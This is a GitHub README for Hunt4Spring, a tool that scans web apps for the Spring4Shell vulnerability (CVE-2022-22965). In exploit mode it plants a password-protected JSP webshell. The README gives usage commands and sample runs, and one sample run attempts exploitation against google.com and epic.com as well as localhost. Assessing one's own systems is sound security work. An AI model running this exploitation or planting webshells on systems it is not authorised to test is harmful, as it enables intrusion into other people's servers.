 # Hunt4Spring

Hunt4Spring helps with identifying as well as exploiting URLs which are potentially vulnerable to [CVE-2022-22965](https://tanzu.vmware.com/security/cve-2022-22965) aka Spring4Shell.

**Video Demo:** https://www.youtube.com/watch?v=JnAnXDFKkF0

## Usage

```
 $ ./hunt4spring -h

  _    _             _   _  _   _____            _             
 | |  | |           | | | || | / ____|          (_)            
 | |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
 |  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
 | |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
 |_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                     | |                  __/ |
                                     |_|                 |___/ 



 [+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
 [+] Author: Umair Nehri (RHL Research Team)
 [+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

 Usage of ./hunt4spring:
 -exploit
         Turns on exploitation mode.
 -file string
         Specify a file containing a list of target URLs.
 -outfile string
         Output file name to store results. (default "hunt4spring.json")
 -url string
         Specify a single target URL.
```

To use the tool, you can grab any one of the binaries from the [releases section](https://github.com/redhuntlabs/Hunt4Spring/releases) or build the source code yourself. The code is in Go, hence a simple `go build` will do the job, provided you have a working Go setup.

### Flags
In order to run Hunt4Spring, users have two options available. Either they can provide a single URL using the `-url` flag or provide with bulk URLs through a file by using the `-file` flag. 

You can specify the name of the file to store the output in JSON format by using the `-outfile` flag. [By default the output gets stored in a file called `hunt4spring.json`]

```sh
$ ./hunt4spring -url http://127.0.0.1:8080/ -exploit -outfile op.json

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:40:04 Checking: http://127.0.0.1:8080/
2022/04/01 17:40:04 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:40:04 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:40:06 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://127.0.0.1:8080/ | YES                       |
+------------------------+---------------------------+
```

### Usage Modes 
#### Default Mode
In the default mode, user doesn't has to specify any additional flags and this mode would be used by the tool by default. The tool will look for all URL/URLs which are potentially vulnerable to this vulnerability.

We do not have to provide any additional flags in this case.

```sh
$ ./hunt4spring -file test.txt

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:42:20 Checking: http://google.com/

2022/04/01 17:42:21 Checking: https://epic.com/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8082/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8080/
2022/04/01 17:42:26 http://127.0.0.1:8080/ [Seems to be vulnerable!]

2022/04/01 17:42:26 Checking: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

#### Exploit Mode
In the exploit mode, the tool would not just scan the URL/URLs but would even try to exploit them by placing a webshell in the target's root directory. The name of the webshell would be **shell.jsp** having the password **hunt4spring**.

In order to enable exploit mode, we have to provide an addtional flag (`-exploit`) along with the normal input flags:
```sh
$ ./hunt4spring -file test.txt -exploit

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:44:03 Checking: http://google.com/
2022/04/01 17:44:04 Trying to exploit: http://google.com/

2022/04/01 17:44:06 Checking: https://epic.com/
2022/04/01 17:44:11 Trying to exploit: https://epic.com/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8082/
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8082/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8080/
2022/04/01 17:44:17 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:44:20 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

2022/04/01 17:44:20 Checking: http://127.0.0.1/
2022/04/01 17:44:20 Trying to exploit: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

### Output
The output file saves the data in JSON format like below:
```json
[
    {
        "host": "http://127.0.0.1:8080/",
        "is_vulnerable": true,
        "exploit_completed": true,
        "payload_path": "http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring\u0026cmd=whoami"
    }
]
```

### Setting up a Test Environment
If you'd like to test out Spring4Hunt or the Spring4Shell vulnerability in general, then you can always refer to this docker image: [vulfocus/spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29).

The installation process is quite simple in this case as well, you just have to run the below command: 
```
docker run -p 9090:9090 vulfocus/spring-core-rce-2022-03-29
```
The app should now be available at `http://localhost:9090`.

### More details around Spring4Shell
We have covered more details around Spring4Shell Vulnerability in our [blog](https://redhuntlabs.com/blog/the-spring4shell-vulnerability.html).

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [@vx-underground](https://www.vx-underground.org/) for the initial PoC.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**
